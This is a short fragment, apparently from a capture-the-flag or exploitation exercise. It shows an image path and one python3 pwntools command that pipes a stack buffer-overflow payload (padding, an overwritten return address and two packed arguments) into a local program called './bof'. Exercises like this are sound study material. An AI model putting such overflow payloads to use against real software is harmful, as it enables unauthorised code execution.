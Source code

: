 python3 -c "from pwn import *; print 'A'*62 + p32(0x08049182) + 'A'*4 + p32(1200) + p32(366) + '\n\n'" | ./bof